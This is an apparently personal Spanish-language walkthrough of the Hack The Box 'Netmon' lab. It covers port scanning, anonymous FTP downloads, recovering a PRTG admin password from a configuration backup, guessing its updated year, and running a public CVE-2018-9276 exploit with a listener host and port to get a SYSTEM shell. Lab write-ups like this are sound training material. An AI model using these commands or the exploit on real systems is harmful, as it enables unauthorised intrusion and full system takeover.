






# Netmon

```bash
sudo nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.230.176 -oN scanNmap.txt
```



- 135, 49664...49669 -> msrpc

- 139 -> NetBIOS-SSN -> SMB de impresoras etc



- 21 -> ftp -> Anonymous
Está expuesto todo el windows casi, pero no encuentro nada interesante a priori
Encontramos flag

- 80 -> PRTG Network Monitor (NETMON) 18.1.37



Buscamos credenciales por defecto -> prtgadmin:prtgadmin -> NO funciona

- 139 -> no nos podemos conectar en princicio al smb
Si usamos
```bash
crackmapexec smb 10.129.230.176
```


Con
```bash
smbclient -L 10.129.230.176 -N
```

con sesión nula (-N) no tenemos acceso

- Volvemos al ftp y vemos que hay una carpeta de PRTG Network Monitor que coincide con lo expuesto en la web, entramos en *webroot* que es la raiz de la web y descargamos todo el contenido para analizar el código fuente de la web
```bash
wget -r "ftp://anonymous:@10.129.230.176/Program Files (x86)/PRTG Network Monitor/webroot/public/"
```

- Comando para viajar a la  carpeta de interes (se cierra el ftp todo el rato)
cd /Program\ Files\ (x86)/PRTG\ Network\ Monitor/webroot/public

- Nos descargamos todo el ftp y hacemos una busqueda por archivos de configuracion
```bash
find . -iname \*conf\* 2>/dev/null
```



- Encontramos un archivo oculto en la raiz del ftp
/ProgramData
Donde hay información del PRTG Network monitor

- Vemos varios archivos de configuración
*PRTG Configuration.dat*
*PRTG Configuration.old*
*PRTG Configuration.old.bak* (bak es de backup)

Vamos a buscar las diferencias entre unos y otros
```bash
diff PRTG Configuration.old PRTG Configuration.old.bak
```

Vemos unas posibles credenciales


prtgadmin:PrTg@dmin2018

- Si intentamos acceder no funciona, pero teniendo en cuenta que es de un *.old.bak* puede ser que haya cambiado
Se nos ocurre **ir adelantando años** -> PrTg@dmin2019, PrTg@dmin2020, etc

- Conseguimos logearnos con **PrTg@dmin2019**



- Ahora que estamos autenticados buscamos algún exploit
Vemos que hay un posible RCE con metasploit asique buscamos uno con python
*prtg network monitor exploit github authenticated python*
Encontramos uno en github -> https://github.com/A1vinSmith/CVE-2018-9276
Lo ejecutamos
```bash
python3 exploit.py -i 10.129.4.214 -p 80 --lhost 10.10.14.96 --lport 443 --user prtgadmin --password PrTg@dmin2019
```



nt authority\system
